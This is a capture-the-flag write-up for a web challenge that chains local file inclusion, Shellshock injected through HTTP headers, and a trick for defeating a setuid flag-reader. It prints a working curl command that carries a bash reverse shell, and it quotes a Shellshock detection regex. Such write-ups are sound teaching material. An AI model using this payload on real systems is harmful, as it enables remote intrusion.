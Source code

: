# command-executor

Nice problem, I didn't solve the entire challenge, I read some hints from writeup.

The challenge has many small challenges, I think it's interesting.

First of all, we see the `ls` has some familiar name wrt the func param in the url. Func param supports man, untar, cmd and ls, and all of these files has `.php`! We may guess there's a LFI vulnerability.

```bash
bootstrap
cat-flag.png
cmd.php
comic-neue
index.nginx-debian.html
index.php
ls.php
man.php
untar.php
windows-run.jpg
```

Bingo! We can get the source code by classic base64 filter. After reading the source code, I have no idea. Traditional LFI to RCE won't work. After reading the writeup, this challenge is all about **shellshock**.

Hmm... is there any hints about shellshock that I didn't recognize, or it just needs guessing? Actually, yes! We can see there's a really weird regex in the blacklist `'\(\)\s*\{\s*:;\s*\};'`. If you're familiar with CVE in recent years, you may recognize this is a (weak) regex to detect shellshock.

Shellshock is a vulnerability in bash, which allows attacker to execute arbitrary code by setting environment variable. But how can we control the environment variable? Actually there's another strange code snippet about this

```php
foreach($_SERVER as $key => $val) {
    if(substr($key, 0, 5) === 'HTTP_') {
        putenv("$key=$val");
    }
}
```

Yes, we can actually control the environment variable by setting HTTP header! We'll try shellshock now.

After trying to modify the POC code, we got the RCE by the following POC. (I think reverse shell is more convenient)

```bash
curl -H "X: () { a:; }; /bin/bash -c '/bin/bash -i >& /dev/tcp/host/port 0>&1'" https://command-executor.hackme.quest/index.php\?func\=cmd\&cmd\=env
```

The challenge is not done yet, the flag-reader program is not just a setuid reading flag program, it's still another challenge.

```c
#include <unistd.h>
#include <syscall.h>
#include <fcntl.h>
#include <string.h>

int main(int argc, char *argv[])
{
        char buff[4096], rnd[16], val[16];
        if(syscall(SYS_getrandom, &rnd, sizeof(rnd), 0) != sizeof(rnd)) {
                write(1, "Not enough random\n", 18);
        }

        setuid(1337);
        seteuid(1337);
        alarm(1);
        write(1, &rnd, sizeof(rnd));
        read(0, &val, sizeof(val));

        if(memcmp(rnd, val, sizeof(rnd)) == 0) {
                int fd = open(argv[1], O_RDONLY);
                if(fd > 0) {
                        int s = read(fd, buff, 1024);
                        if(s > 0) {
                                write(1, buff, s);
                        }
                        close(fd);
                } else {
                        write(1, "Can not open file\n", 18);
                }
        } else {
                write(1, "Wrong response\n", 16);
        }
}
```

We have to input the same random string to get the flag. Can we automate this?

If you're familiar with linux, it's not hard to find out to input and output the same file with `<` and `>`. We can find a place we're able to write and get the flag. I use `/dev/shm` here.

```bash
www-data@af32bfd60559:/$ rm /dev/shm/test
rm /dev/shm/test
www-data@af32bfd60559:/$ ./flag-reader > /dev/shm/test < /dev/shm/test flag
./flag-reader > /dev/shm/test < /dev/shm/test flag
www-data@af32bfd60559:/$ cat /dev/shm/test
cat /dev/shm/test
�5Q�;�;����B    ��FLAG{???}
```

Fun challenge, but I think it's a bit hard since we need to be sensitive to shellshock.

A little question here: can we use LFI to RCE?

My answer after some experiment is: no. Maybe I'm wrong, you can try it yourself and tell me if you find a way.

Since it uses `include("$page.php");`, we may come up with null byte termination to get rid of php extension. But it's not working.

Also using path and dot truncation won't work either.(Make path longer than 4096 bytes) So we cannot include anything we like.
